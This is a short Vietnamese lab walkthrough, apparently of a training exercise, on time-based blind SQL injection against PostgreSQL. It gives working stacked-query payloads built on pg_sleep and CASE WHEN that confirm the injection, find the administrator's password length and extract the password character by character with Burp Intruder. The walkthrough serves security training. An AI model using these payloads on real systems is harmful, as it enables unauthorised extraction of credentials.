

Bài này có đề bài như sau

Thì đối với bài này hơi nâng cao hơn bài ở trên đó là nó còn muốn tìm ra pass nữa và phải dựa trên time ngoài ra không còn cách nào khác
Bây giờ ta sẽ sử dụng 1 số hàm logic hiểu cơ bản là ta muốn tìm pass đúng không nếu sai thì nó phải khác rõ rệt với đúng thì mình mới nhận ra được có thể có một số trường hợp thì nó không ổn lắm kiểu như bài check độ dài lúc nãy

                                        ';SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

Bây giờ câu truy vấn sẽ trở thành
                                        SELECT * FROM users WHERE trackingID = 'blabla';SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
Nó sẽ thực hiện một cách tuần tự và ta thấy time delay của nó là tầm 10s tức truy vấn hợp lệ

+ Sửa một chút truy vấn thử xem sao 
                                        ';SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
Sau đó dò xem đọ dài password bằng query
                                        ';SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>$x)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

Dùng intruder để brute xem lọc thời gian phản hồi ra được độ dài passwd
Sau đó
                                         ';SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$s,1)      
                                          ='$s')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
Hai mục này ta sẽ dò bằng 2 đạn để check với intruder

@@ Chúc các bạn thành công @@